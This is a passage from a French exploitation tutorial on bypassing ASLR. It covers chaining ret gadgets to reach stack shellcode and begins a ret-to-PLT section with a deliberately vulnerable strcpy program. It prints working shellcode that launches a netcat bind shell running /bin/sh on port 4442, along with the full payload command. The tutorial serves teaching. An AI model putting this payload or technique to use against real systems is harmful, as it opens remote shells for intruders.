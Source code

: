	0xbffffa80:     0x00000003      0x08048330      0x00000000      0x08048351
	0xbffffa90:     0x08048457      0x00000003      0xbffffab4      0x08048490
	0xbffffaa0:     0x08048500      0xb7fed040      0xbffffaac      0x0000001c
	0xbffffab0:     0x00000003      0xbffffc07      0xbffffc22      0xbffffd33
	0xbffffac0:     0x00000000      0xbffffd37
	gdb$ x/s 0xbffffc22
	0xbffffc22:     "ABCD", 'A' ...
	gdb$

On voit qu'à l'adresse esp+0xb8, on a l'adresse de notre buffer sur la stack. En dépilant 47 valeurs, on pourra alors jumper sur notre payload.
Pour dépiler une valeur, rien de plus simple, il faut sauter sur une instruction ret. En chaînant ces instructions, on va pouvoir dépiler les valeurs situées en haut de la pile.

Récupérons l'adresse d'une instruction ret :

	:::console
	$ ropc -f ./a.out -g -F -d 1
	0x080482be  -> ret ;

Nous avons plus qu'à exploiter la vulnérabilité, notre payload ressemblera à :

	:::console
	[ SHELLCODE | PADDING | RET (saved EIP) | 46xRET ]

Testons :

	:::console
	./a.out `perl -e 'print "\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x68\x2d\x6c\x76\x70\x89\xe0\x52\x68\x34\x34\x34\x32\x89\xe1\x52\x68\x2d\x76\x76\x65\x89\xe5\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe7\x52\x57\x55\x51\x50\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x197 . "\xbe\x82\x04\x08"x47 . " " . (47*4+268);'`
	Listening on any address 4442 (saris)

On voit que ça fonctionne à merveille !

## 0x02 Ret to PLT (strcpy, memcpy, sprintf...)

Utilité : Cette technique est utilisée pour copier un payload (shellcode, fake stack frame) dans une zone non soumise à l'ASLR par exemple. Elle peut également permettre de bypass des filtres de caractères. (On peut par exemple avoir un \x00 dans notre payload)
Principe : Il s'agit de chaîner les appels d'une fonction de recopie (strcpy...), en copiant certains octets du programmes non soumis à l'ASLR (segment DATA/CODE), vers une zone non randomisé.

Pour cet exemple, je vais utiliser ce programme vulnérable :

	:::c
	#include <string.h>
	#include <stdio.h>

	char buffer[256];

	void foo(const char *b) {
    	char buff[256];

        strcpy(buff, b);
	}
